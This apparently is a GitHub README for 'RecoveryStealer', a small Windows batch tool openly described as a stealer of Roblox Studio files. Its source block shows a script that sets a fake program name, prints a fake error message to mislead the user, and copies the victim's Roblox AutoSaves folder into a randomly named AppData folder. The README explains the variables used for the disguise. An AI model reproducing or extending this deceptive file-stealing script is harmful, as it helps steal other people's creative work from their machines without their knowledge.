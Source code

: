 # RecoveryStealer
Roblox Studio Files Recovery Stealer.
## Requirements 
Windows 10 or higher 
### Source
```bash
@echo off color 0c title %fakename% echo %errorstr% cd %AppData% md AutoSaves%rn% xcopy C:\Users\%user%\Documents\ROBLOX\AutoSaves %AppData%\AutoSaves%rn% timeout /t 2 /nobreak >nul
```
> fakename: variable which is displays program name.
> errorstr: variable which is displays error string.
> rn: random number.
> user: username
